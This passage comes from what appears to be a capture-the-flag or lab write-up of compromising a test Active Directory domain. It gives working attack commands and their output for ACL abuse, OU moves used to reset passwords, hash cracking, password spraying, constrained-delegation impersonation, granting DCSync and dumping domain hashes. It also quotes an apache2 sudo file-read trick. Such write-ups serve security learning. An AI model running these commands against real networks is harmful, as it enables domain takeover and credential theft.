    * The script connects to the Task Scheduler COM service, references a pre existing task named **`Configure-OUDelegation`** at the root task folder (`\`), and forces it to execute via `$task.Run($null)`.
    *   Because the backend task runs under the **SYSTEM** context, it bypasses standard user limitations to apply changes.

        ```bash
        #Run the Configuration Trigger
        .\Configure-OUDelegation.ps1

        # Check if Directory Ops now holds specific rights (like WriteProperty or GenericAll) on both OUs
        .\check_ou_permissions.ps1

        # Enumerate accounts nested inside the Senior Dev Ops OU and their current group memberships
        .\enum_ou_groups.ps1
        ```

        ```bash
        *Evil-WinRM* PS C:\Users\cliff.b\Task Scripts> .\Configure-OUDelegation.ps1

        Name          : Configure-OUDelegation
        InstanceGuid  : {E9C9C971-259A-4B9F-9B41-1A6A70FB37E7}
        Path          : \Configure-OUDelegation
        State         : 4
        CurrentAction : powershell.exe
        EnginePID     : 1752

        *Evil-WinRM* PS C:\Users\cliff.b\Task Scripts> .\check_ou_permissions.ps1

        ===== Checking OU: OU=Senior Dev Ops,DC=novacart,DC=local =====
        Match found!
        Principal : NOVACART\Directory Ops
        Rights    : DeleteChild, WriteProperty
        Type      : Allow
        Inherited : False
        -----------------------------------

        ===== Checking OU: OU=Dev Ops,DC=novacart,DC=local =====
        Match found!
        Principal : NOVACART\Directory Ops
        Rights    : GenericAll
        Type      : Allow
        Inherited : False
        -----------------------------------
        *Evil-WinRM* PS C:\Users\cliff.b\Task Scripts> .\enum_ou_groups.ps1

        ===== OU: OU=Senior Dev Ops,DC=novacart,DC=local =====

        User: l.forta
          -> CN=Identity_Admins,CN=Users,DC=novacart,DC=local

        User: p.bruce
          -> CN=Identity_Admins,CN=Users,DC=novacart,DC=local

        User: m.mignola
          -> CN=Unix_Support,CN=Users,DC=novacart,DC=local
          -> CN=Remote Desktop Users,CN=Builtin,DC=novacart,DC=local

        ===== OU: OU=Dev Ops,DC=novacart,DC=local =====

        User: t.morris
          -> No group memberships

        User: l.harrow
          -> No group memberships
        *Evil-WinRM* PS C:\Users\cliff.b\Task Scripts> 

        ```

        

        * The scheduled task executed successfully
        * `Directory Ops` now has explicit **`DeleteChild`** and **`WriteProperty`** rights on the `OU=Senior Dev Ops` container.
        *   At this point i think we need to `recollect` bloodhound data to carter for the new updates

            ```bash
            nxc ldap DC.novacart.local -u cliff.b -p 'REDACTED' --bloodhound --collection All --dns-server  10.1.152.183            
            ```

            

            

            

            

            * `m.mignolia` is an account that stands out to me
            * The members of the group `DIRECTORY OPS@NOVACART.LOCAL` have generic write access to the user `M.MIGNOLA@NOVACART.LOCAL.`
            *   Generic Write access grants you the ability to write to any non-protected attribute on the target object, including "members" for a group, and "serviceprincipalnames" for a user

                ```bash
                python3 targetedKerberoast.py -v -d 'novacart.local'  -u "cliff.b" -p "REDACTED"
                ```

                

                

                

                * targetedKerberoast with Generic Write Permissions failed
                * `Cliff.b` have genericAll permissions on the OU `DEVs OPS`.
                * We can add this user there and then attempt to change its password
                * From the below findings, `cliff.b` have `DeleteChild` perms over the `OU=Senior Dev ops` and `GenericALL` over `OU=Dev ops` hence we can move `m.mignola` from `Senior dev ops` to `Dev ops` due to `inheritance`

                

                _**Use the below reference to complete the process**_

                https://codingtechroom.com/question/-move-users-active-directory-ou

                https://www.manageengine.com/products/ad-manager/powershell/how-to-move-ad-users-using-powershell.html

#### Compromising m.mignola

```bash
# Move a single user to a different OU using PowerShell
Move-ADObject -Identity "CN=John Doe,OU=OldOU,DC=example,DC=com" -TargetPath "OU=NewOU,DC=example,DC=com" 

# Move multiple users in bulk
Get-ADUser -Filter {Department -eq 'Sales'} | Move-ADObject -TargetPath "OU=Sales,DC=example,DC=com"

Move-ADObject -Identity "CN=MIKE MIGNOLA,OU=SENIOR DEV OPS,DC=NOVACART,DC=LOCAL" -TargetPath "OU=DEV OPS,DC=NOVACART,DC=LOCAL"
```

Alternative Using ADSI (Active Directory Service Interfaces)

```bash
# Define the destination OU object
$TargetOU = [ADSI]"LDAP://OU=Dev Ops,DC=novacart,DC=local"

# Move the user object by specifying its current distinguished name
$TargetOU.MoveHere("LDAP://CN=m.mignola,OU=Senior Dev Ops,DC=novacart,DC=local", "CN=m.mignola")

#verify new location
[ADSI]"LDAP://CN=m.mignola,OU=Dev Ops,DC=novacart,DC=local"
```


* We were successful in changing `m.mignola`password
*   We can now rdp or use evil-winrm

    ```bash
    evil-winrm -i 10.1.152.183 -u m.mignola -p RedBlue777
    xfreerdp3 /v:10.1.152.183 /u:m.mignola /p:'RedBlue777' +clipboard /dynamic-resolution /drive:$(pwd),share
    ```


* Restored the recycle bin and discovered some `thunderbird messages` below and also `ssh console`


* ssh running a srv\_unix


* The `.bash_history` shows that the user previously attempted to read `/etc/mysql/my.cnf` and tried to switch to root using `su root`


https://gtfobins.org/gtfobins/apache2/


_**Cracking the hash**_

```bash
hashcat -m 1800 svc.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best66.rule
```


* THIS IS A JOKE RIGHT????????????????????????? 26 days??
* Anways i tried john and was also looking into other paths like `sudo apache2 -C "Define APACHE_RUN_DIR /tmp" -C "Include /root/.bash_history" 2>&1`

#### Compromising andrew.collins


* Obtained the password a different way but left john to run to check how long it will take


* QUESTION NOW IS , WHO this password is for?


* `andrew.collins` manages administrative root access inside the Linux environment.
* The Administrator is expressing a concern (or a subtle hint) that `Andrew Collins` has a habit of `reusing` his passwords across different platforms or accounts hence password spraying
* We already have our users.txt file that we can use

```bash
nxc smb dc.novacart.local -u users.txt -p 'REDACTED' --continue-on-succes
```


* The password is indeed for `andrew.collins`


* The user `M.BROWN@NOVACART.LOCAL` has the constrained delegation permission to the computer `DC.NOVACART.LOCAL`.
* Remember we once obtained the krb5gt and failed to crack the hash. Now we can simple force-change the password and we would have compromised `m.brown`
*   Only `m.brown` is a user that is worthy looking at

    

    

    

    * The user `M.BROWN@NOVACART.LOCAL` is a member of the group `SERVICE DELEGATION ADMINS@NOVACART.LOCAL.`
    * Groups in active directory grant their members any privileges the group itself has. If a group has rights to another principal, users/computers in the group, as well as other groups inside the group inherit those permissions.

    ```bash
    getST.py -spn 'HTTP/PRIMARY.testlab.local' -impersonate 'admin' -altservice 'cifs' -hashes :2b576acbe6bcfda7294d6bd18041b8fe 'domain/victim'

    getST.py novacart.local/m.brown:'RedBlue777' -spn cifs/dc.novacart.local -impersonate Administrator -dc-ip dc.novacart.local
    ```

    

    * failed
    * At this point i was LOST and then i had to look for the shortest path to ADMIN and discovered a user that i haven’t looked at.

    

_**Looking into m.ibabao**_


* The user `M.IBABAO@NOVACART.LOCAL` is a member of the group `EXCHANGE OPERATIONS GROUP@NOVACART.LOCAL.`
* Groups in active directory grant their members any privileges the group itself has. If a group has rights to another principal, users/computers in the group, as well as other groups inside the group inherit those permissions.
* The members of the group `EXCHANGE OPERATIONS GROUP@NOVACART.LOCAL` have permissions to modify the DACL (Discretionary Access Control List) on the group `PROTECTED USERS@NOVACART.LOCAL`
* With write access to the target object's DACL, you can grant yourself any permission you want on the object.
* Firstly we need to remove `m.ibabao` from the protected users

#### Compromising **`m.ibabao`**

_**Mind mapping**_

* Now `cliff.b` can control or can compromise users who are members of the **`IDENTITY_ADMINS`** `p.bruce` or `l.forta`, who reside in the Senior Dev Ops OU.
* The `IDENTITY_ADMINS` group has **`WriteDacl`** permissions over the **`EXCHANGE OPERATIONS GROUP`**
* **`m.ibabao`** is explicitly a member of the `EXCHANGE OPERATIONS GROUP`.
* By possessing `WriteDacl` over a group, you can alter its Access Control List (ACL) to grant yourself explicit **`GenericAll`** or **`WriteProperty`** privileges over that group, or simply use your write privileges to add a user you control directly into the group. Since `m.ibabao` is a member, inheriting or controlling group-level modifications allows you to pivot directly into their security context.
* Now we shall use either `p.bruce` or `L.forta` to remove `m.ibabao` in the protected group. We have done a similar thing up there
*   `Cliff.b` can move user `p.bruce` to `dev ops` and then change user `p.bruce` password. Now user `p.bruce` will then remove `m.ibabao` from the protected group

    ```bash
    # Move a single user to a different OU using PowerShell
    Move-ADObject -Identity "CN=John Doe,OU=OldOU,DC=example,DC=com" -TargetPath "OU=NewOU,DC=example,DC=com" 

    # Move multiple users in bulk
    Get-ADUser -Filter {Department -eq 'Sales'} | Move-ADObject -TargetPath "OU=Sales,DC=example,DC=com"

    Move-ADObject -Identity "CN=PAUL BRUCE,OU=SENIOR DEV OPS,DC=NOVACART,DC=LOCAL" -TargetPath "OU=DEV OPS,DC=NOVACART,DC=LOCAL"

    ```

    

    

    ```bash
    bloodyAD -u p.bruce -p 'RedBlue777' -d NOVACART.LOCAL --host 10.1.152.183 remove groupMember "Protected Users" m.ibabao

    ```

    

    *   Now we can target `m.ibabao` instead of administrator

        ```bash
        getST.py novacart.local/m.brown:'RedBlue777' -spn cifs/dc.novacart.local -impersonate m.ibabao -dc-ip dc.novacart.local
        ```

        

        *   Export the Ticket to Your session

            ```bash
            export KRB5CCNAME=m.ibabao@cifs_dc.novacart.local@NOVACART.LOCAL.ccache
            ```
        *   now Granted `DCSync` Privileges to `m.ibabao`

            ```bash
            bloodyAD -u 'm.ibabao' -d 'novacart.local' --host DC.novacart.local --dc-ip 10.1.152.183 --kerberos add dcsync 'm.ibabao'
            ```

            

#### Compromising the administrator

```bash
secretsdump.py -k -no-pass novacart.local/m.ibabao@dc.novacart.local
nxc smb 10.1.152.183 -k --use-kcache --ntds
```


BOOOOOOOOOOOOOOOOOOOOOOOOOOOOM!!!! We did it. THANKS FOR READING. I HOPE YOU FOUND ONE OR TWO INTERESTING THINGS TO GO WITH.
